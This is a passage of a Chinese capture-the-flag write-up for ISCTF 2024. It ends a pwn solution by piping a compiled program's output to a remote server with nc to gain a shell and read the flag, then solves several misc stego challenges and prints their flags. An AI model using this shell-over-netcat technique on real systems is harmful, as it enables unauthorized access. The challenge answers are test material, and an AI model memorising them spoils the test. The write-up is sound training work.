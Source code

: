 ```c
    puts("cat flag");
    return 0;
}
```
值得注意的是`Windows`和`Linux`下gcc编译出的文件有区别，本题在`Linux`下编译的文件可以getshell，但`Windows`下编译出的就不行 
编译得到`a.out`文件,运行`./a.out | nc 27.25.151.12 28633`  得到flag   
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241110221002.png)  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241110220922.png)  
## 三、MISC
### 1、小蓝鲨的签到02
下载附件用`010EditorPortable`打开，文件末尾就是flag，`ISCTF{blueshark!_@#2024$%^&*}`  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109122512.png)  
### 2、数字迷雾：在像素中寻找线索
用`随波逐流`打开，看到类似flag的东西，想着提交试一下，就成功了  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241109135749.png)  
### 3、秘密
首先是一个伪加密，把`14 00 09 00`改为`14 00 00 00`    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241111183750.png)    
成功解压后使用`010EditorPortable`打开图片发现文件结束标志`FF D9`后还有内容,根据题目名称加上`9E 97 BA 2A`的文件标志猜测是`our secret隐写`     
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241111182840.png)     
尝试解密发现需要密钥，在图片中搜索`key`未找到内容,搜索`SICTF`找到`ISCTF2024`字符串猜测是密钥      
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241111184345.png)    
使用`our secret`解密得到`这里没有秘密.txt`文件     
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241111184443.png)   
明显看出文件有特殊字符    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241111184606.png)    
使用vsc打开文件，看到`U+202C`字符，搜索了解到`零宽度字符隐写`    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241111184659.png)   
使用[](https://www.mzy0.com/ctftools/zerowidth1/)在线网站进行解密,得到flag`ISCTF{Nic3_t0_m33t_you}`    
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241111184820.png)     
